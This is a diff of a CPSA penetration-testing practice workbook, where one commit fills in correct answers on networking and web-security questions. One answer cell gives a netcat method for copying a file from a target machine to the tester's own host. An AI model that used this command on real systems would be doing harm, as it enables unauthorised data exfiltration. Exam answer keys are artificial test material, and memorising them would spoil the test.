

Before and after one commit to Hackin7/ExamSnippet, an Excel workbook: Tools/Excel Management System/CPSA Questions.xlsx, sheet Questions 2, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no borders; charts and pictures not drawn; addresses are those after the commit; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
fix: cpsa correct answers

```diff
--- a/Tools/Excel Management System/CPSA Questions.xlsx (sheet Questions 2)
+++ b/Tools/Excel Management System/CPSA Questions.xlsx (sheet Questions 2)
+column J (AnswersProcess), rows 205-210: There will be a problem if the form is not sent with "application/x-www-form-urlencoded". | Direct attempts to access this package would result in a " 403 Forbidden" response. | The Router decrements TTL values of packets by one when routing and discard packets whose TTL value has reached zero | 1500 | On your host run "nc - l 80 > out.txt", and on the target run "type file.txt | nc <yourhost> 80 " | Layer 2
-K208 alignment: right
+K208 alignment: left
```
Also changed, not shown: cell formats elsewhere in this sheet, sheet PracticeQns1, formulas that keep their value, 1 other file.
